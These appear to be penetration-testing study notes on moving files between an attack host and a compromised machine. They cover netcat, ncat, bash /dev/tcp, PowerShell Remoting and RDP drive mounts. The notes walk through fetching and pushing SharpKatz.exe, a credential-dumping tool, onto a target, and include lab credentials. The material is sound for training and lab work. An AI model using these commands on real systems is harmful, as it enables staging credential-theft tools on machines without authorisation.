### Netcat (nc is original, Ncat is Nmap version, which is more supported)

nc - compromised machine
```shell-session
nc -l -p 8000 > SharpKatz.exe
```

Ncat - compromised machine
```shell-session
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

nc - attack host
```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell-session
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```
(-q 0 terminates connection when finished)

Ncat - attack host
```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```shell-session
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
(--send-only terminates the session once its input is exhausted)

You can also do the opposite. Send file as input to netcat, then connect.

nc - attack host
```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

nc - compromised machine
```shell-session
nc 192.168.49.128 443 > SharpKatz.exe
```

ncat - attack host
```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

ncat - compromised machine
```shell-session
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If compromised machine does not have netcat:

attack host
```shell-session
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
```shell-session
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

Compromised machine
```shell-session
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```


### PowerShell Session File Transfer (WinRM)

If HTTP, HTTPS,  or SMB is unavailable, we can used PowerShell Remoting, aka WinRM.

PowerShell Remoting listeners run on TCP/5985 for HTTP and TCP/4986 for HTTPS.

Prerequisites:
- Need administrative access
- OR Be a member of the Remote Management Users group
- OR have explicit permissions for PowerShell Remoting in the session configuration

Test PowerShell Remoting Connection:
```powershell-session
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Create Session:
```powershell-session
$Session = New-PSSession -ComputerName DATABASE01
```

Copy file from our localhost to DATABASE01 Session
```powershell-session
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

Vice-Versa:
```powershell-session
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```


### RDP

Mount a Linux Folder using rdesktop
```shell-session
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Mount a Linux Folder using xfreerdp
```shell-session
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access, connect to \\\tsclient\

If using a Windows host, the native 'mstsc.exe' remote desktop client can be used.

Local Resources -> More -> Drives -> SYSTEM (C:)